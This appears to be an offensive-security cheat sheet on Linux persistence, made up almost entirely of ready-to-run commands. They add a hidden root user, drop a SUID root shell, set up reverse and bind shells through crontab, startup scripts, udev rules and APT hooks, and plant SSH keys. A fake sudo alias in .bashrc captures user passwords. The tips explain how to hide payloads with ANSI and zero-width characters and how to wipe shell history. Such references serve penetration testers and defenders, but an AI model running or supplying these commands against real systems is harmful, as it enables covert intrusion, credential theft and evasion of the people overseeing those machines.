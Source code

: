 # Linux - Persistence

## Summary

* [Basic reverse shell](#basic-reverse-shell)
* [Add a root user](#add-a-root-user)
* [Suid Binary](#suid-binary)
* [Crontab - Reverse shell](#crontab-reverse-shell)
* [Backdooring a user's bash_rc](#backdooring-an-users-bash-rc)
* [Backdooring a startup service](#backdoor-a-startup-service)
* [Backdooring a user startup file](#backdooring-an-user-startup-file)
* [Backdooring a driver](#backdooring-a-driver)
* [Backdooring the APT](#backdooring-the-apt)
* [Backdooring the SSH](#backdooring-the-ssh)
* [Tips](#tips)
* [Adicional Linux Persistence Options](#Adicional-Persistence-Options)
* [References](#references)


## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring a user's bash_rc 

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~./bashrc
```

and create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```


## Backdooring a startup service

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Backdooring a user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Tips

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```powershell
#[2J[2J[2J[2H[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Hide in plain sight using zero width spaces in filename.

```powershell
touch $(echo -n 'index\u200D.php') index.php
```

Clear the last line of the history.

```bash
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history

```bash
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writeable

```bash
/var/tmp/
/tmp/
/dev/shm/
```
## Adicional Persistence Options

* [SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004)
* [Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554)
* [Create Account](https://attack.mitre.org/techniques/T1136/)
* [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
* [Create or Modify System Process](https://attack.mitre.org/techniques/T1543/)
* [Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)
* [Event Triggered Execution: Trap](https://attack.mitre.org/techniques/T1546/005/) 
* [Event Triggered Execution](https://attack.mitre.org/techniques/T1546/)
* [Event Triggered Execution: .bash_profile and .bashrc](https://attack.mitre.org/techniques/T1546/004/)
* [External Remote Services](https://attack.mitre.org/techniques/T1133/)
* [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574/)
* [Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)
* [Pre-OS Boot](https://attack.mitre.org/techniques/T1542/)
* [Pre-OS Boot: Bootkit](https://attack.mitre.org/techniques/T1542/003/)
* [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/) 
* [Scheduled Task/Job: At (Linux)](https://attack.mitre.org/techniques/T1053/001/)
* [Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)
* [Server Software Component](https://attack.mitre.org/techniques/T1505/)
* [Server Software Component: SQL Stored Procedures](https://attack.mitre.org/techniques/T1505/001/)
* [Server Software Component: Transport Agent](https://attack.mitre.org/techniques/T1505/002/) 
* [Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/) 
* [Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
* [Traffic Signaling: Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
* [Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/) 
* [Valid Accounts: Domain Accounts 2](https://attack.mitre.org/techniques/T1078/002/)

## References

* [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
* [https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/](https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/)
* [http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html](http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html)
* [http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/](http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/)
* [Pouki from JDI](#no_source_code)
